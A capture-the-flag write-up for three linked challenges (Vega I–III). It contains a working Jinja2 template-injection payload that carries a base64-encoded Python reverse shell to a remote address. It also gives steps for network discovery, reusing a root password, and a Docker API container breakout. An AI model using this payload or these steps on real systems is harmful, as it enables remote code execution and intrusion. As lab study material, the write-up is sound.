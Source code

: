 # Vega I

## Description
One of our undercover agents who was sent to take down this website trafficking alien kittens was found out. In fear of his lives, he has fled the country, but not before dropping the password in the form of a `hint` on the website to unlock all the incriminating evidence that he has sent us. However, our communications got cut when the enemy was found eavesdropping on the conversation. It is up to you, Agent 470, to find this hint and uncover the secret password.

## Solution
Using SSTI, gain access to the system with a python reverse shell.

PoC of reverse shell exploit:
```
{% set d = "__import__('os').popen(__import__('base64').urlsafe_b64decode('cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMC4wLjEiLDEyMzQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=')).read()" %}
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
        {% for b in c.__init__.func_globals.values() %}
            {% if b.__class__ == {}.__class__ %}
                {% if 'eval' in b.keys() %}
                    {{ b['eval'](d) }}
                {% endif %}
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```
References:
- https://github.com/vulhub/vulhub/tree/master/flask/ssti
- https://github.com/epinna/tplmap
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

# Vega II

## Description
Unlocking the evidence archive reveals an intricate internal network which consists of a hidden internal network. We believe that more incriminating evidence can be found there. Infiltrate a server that has access to the internal network and submit the flag found in the root folder.

## Solution
Simply upload a static `nmap` binary to give you host discovery capabilities.
Doing `cat -v /etc/passwd` in the first container reveals a passwd file obfuscated with nonprinting characters. 
The password for `root` user can be found in the user info. This password is also the same for the DB container. 
Simply ssh into the DB container and `cat /root/flag`.

# Vega III

## Description
After gaining access to the internal network, you receive two hints that simply says: "Unraveling the Dream within the Dream" as well as "After this, there is no turning back. You take the blue pill-the story ends, 
you wake up in your bed and believe whatever you want to believe. You take the red pill-you stay in Wonderland, and I show you how deep the rabbit hole goes.". 
After thinking hard for a while, you suddenly had a hunch behind the meaning of the words and proceed to obtain the last flag.

## Solution
In the DB container, you have root access. This give you access to package management capabilities. As the 
container is running on `Alpine Linux`, the package manager used is `apk`. Install `docker` with `apk --no-cache add docker`. You 
can upload another static nmap binary to the container to discover the address of the last container. For the internal container, port 2375 
(Docker API HTTP) is exposed to which you can interact with it. Afterwards, perform a docker breakout into the host and find the last flag at `/root/flag`.
